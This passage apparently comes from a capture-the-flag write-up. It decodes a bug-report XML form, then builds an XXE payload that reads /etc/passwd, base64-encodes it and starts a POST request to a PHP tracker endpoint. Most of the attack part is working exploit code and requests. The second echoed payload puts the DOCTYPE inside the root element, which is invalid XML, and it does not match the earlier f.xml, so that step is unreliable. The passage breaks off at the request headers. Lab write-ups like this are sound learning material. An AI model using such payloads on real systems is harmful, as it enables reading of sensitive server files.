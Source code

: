 ```bash
echo 'PD94bWwgIHZlcnNpb249IjEuMCIgZW5jb2Rpbmc9IklTTy04ODU5LTEiPz4KCQk8YnVncmVwb3J0PgoJCTx0aXRsZT53ZTwvdGl0bGU+CgkJPGN3ZT53ZTwvY3dlPgoJCTxjdnNzPndlPC9jdnNzPgoJCTxyZXdhcmQ+d2U8L3Jld2FyZD4KCQk8L2J1Z3JlcG9ydD4=' | base64 -d
```
```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
                <bugreport>
                <title>we</title>
                <cwe>we</cwe>
                <cvss>we</cvss>
                <reward>we</reward>
                </bugreport>                                                                                        
```
After reviewing the XML we can confirm that it is a bug report submission. Lets see if we can submit a bug report with an XXE payload. We will craft the following payload to read the `/etc/passwd` file.

```bash
nano f.xml
```
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE data [
<!ENTITY file SYSTEM "file:///etc/passwd"> ]>
<bugreport>
<title>test</title>
 <cwe>test</cwe>
 <cvss>test</cvss>
 <reward>&file;</reward>
</bugreport>
```
Next we have to Base64 encode the XML file and URL encode it so we can submit it in the POST request. When we are Base64 encoding the XML file, we need to make sure that we use the `-w 0` flag so that it does not wrap the output. This is important for the URL encoding step.

```bash
echo '<?xml version="1.0" encoding="ISO-8859-1"?><bugreport><title>we</title><cwe>we</cwe><cvss>we</cvss><reward>we</reward><!DOCTYPE bugreport [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><xxe>&xxe;</xxe></bugreport>' | base64 -w 0
```
Now, lets URL encode it. Use can use ChatGPT, manually do it, or use urlencoder.org.

Now, we can finally submit our craft XML payload!

```HTTP
POST /tracker_diRbPr00f314.php HTTP/1.1

Host: bountyh

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0

Accept: */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Content-Type: application/x-www-form-urlencoded; charset=UTF-8

X-Requested-With: XMLHttpRequest

Content-Length: 211

Origin: http://bountyh

Connection: keep-alive
```